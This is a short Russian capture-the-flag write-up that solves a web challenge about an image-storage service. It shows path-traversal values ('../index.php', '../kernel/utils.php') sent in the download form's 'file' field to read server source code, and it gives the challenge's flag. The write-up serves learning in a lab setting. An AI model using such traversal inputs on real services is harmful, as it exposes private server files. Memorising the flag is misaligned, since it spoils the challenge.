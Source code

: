 # Web 50 / Защищенное хранилище

> Нам удалось выяснить, что доктор Дум использует защищенное хранилище, чтобы прятать свои планы. Нужно срочно выяснить, что он от нас скрывает.

Заходим на [http://zombie.breakingbrain.org:8081](http://zombie.breakingbrain.org:8081).

Проверяем исходный код страницы, куки, location storage, robots.txt и т.д. Пусто.

Пробуем воспользоваться сервисом. Выбираем JPG картинку и жмём **Upload**. На выходе получаем хэш:

> File uploaded successfully: 70785cb6331f905953f1d57cc1d27a6c

Вводим его в поле на главной странице и нажимаем **Download**. Сервис делает `POST` запрос на `/download` с полем `file`, в котором введенный наш хэш, и выдаёт нам кракозябры, т.к. в заголовках почему-то `Content-Type: text/html`.

Пробуем LFI (Local File Inclusion). В поле `file` отправляем `../index.php`. В ответе видим небольшой кусочек PHP кода:

```markdown
<?php
declare(strict_types=1);
?>
<html>

<head>
	<title>Image storage</title>

...
```

Исследуем другие файлы.

../download.php

```php
<?php
declare(strict_types=1);

require_once 'kernel/utils.php';

...
```

../kernel/utils.php

```php
<?php
declare(strict_types=1);

// ITF{D1R_TR@V3RSAL}

defined('ALLOWED_IMG_MIMETYPES') || define('ALLOWED_IMG_MIMETYPES', [
    'image/jpeg',
    'image/jpg'
]);

...
```

Флаг наш.
